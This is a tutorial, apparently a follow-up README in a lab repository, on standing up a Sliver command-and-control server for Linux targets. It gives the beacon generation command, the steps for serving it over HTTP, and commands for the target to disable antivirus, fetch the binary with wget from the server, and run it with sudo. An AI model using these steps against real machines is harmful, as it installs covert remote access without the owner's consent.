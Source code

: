 
# How To Create a C2 Server Using Sliver (Linux - Linux)


This tutorial is a followup to the README for going from a Linux Host to a Linux Client instead of Linux Host -> Windows Client

## Server

All instructions up to this point are the same, except the way the beacon is generated. To generate for Linux instead of Windows, run this command with these flags:

`generate beacon -b YOURIP:8080 --os linux -a x86`

* The -os flag can be `mac` or `linux` and
* The -a flag is `x86` or `arm` (depending on your machine)

This will generate the binary for your Linux machine, and you can continue on in this guide for the remaining steps

## Serve Up Executable

The next step is somewhat up to personal preference and can be done in countless ways. The way I will be covering will be using python, but you can also use apache or any other http protocol file server of your choice. This step doesn't even need to necessarily be done using HTTP, as there are also DNS, TCP, and other methods of transferring this executable, but HTTP is the simplest, so that's the one we went with.

To start a webserver using python, first check that you have python installed on your machine (it does not need to be python3).

I would *highly recommend* hosting this server as a background process using & so that you can reopen sliver, although you could also run this server inside a container or on another page of your terminal if your machine supports that.

If you have python3, you can run this command: `python3 -m http.server &`. If you have a valid internet connection, you should get a response saying your machine is now hosting on 0.0.0.0:8000.

If you do not have python3, you can run this command: `python -m SimpleHTTPServer &`.

Both of these methods should result in the same outcome, with a simple http server hosting the files on your current directory.

## Client (To Be Infected)
Now that we have a file server on our Linux machine that is serving up the executable file, we can move on to our Windows Machine.
> Note the infected machine can also be a Linux machine, but it will not have some of the same features as a Windows client


### Disable Anti-Virus Protections
If you have any pre-existing antivirus protection, you will most likely need to disable them for this demonstration.

### Open Server on Any Internet Browser (or using wget)

Next, open any internet browser (if you have one) or use wget to access the file server that was previously opened in the Serve Up Executable step.

Using an internet browser, go to `http://LINUX_SERVER_IP:8000` and download the executable.

However, because some Linux distributions do not come prepackaged with an internet explorer (or UI at all), we will also be covering how to use wget.

### WGET
To use wget, type in your terminal:
`wget http://LINUX_SERVER_IP:8000/*YOURBINARYFILE*`

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/4e65b523-a057-4081-a879-824d2ae8e5e5)

This should install the file to the directory you are currently in.

Give the script executable permissions using `CHMOD 777 *NAME_OF_BINARY*`

Then, simply run the binary in the background with sudo ./*NAME_OF_BINARY* &

Your Linux machine should now appear in your beacons!

![image](https://github.com/kevinmstapleton/sliver-setup/assets/59635226/60ad21d3-25a4-4fa9-9beb-08cc266bb48c)


Now, you can continue back to the original guide in the [README](README.md)
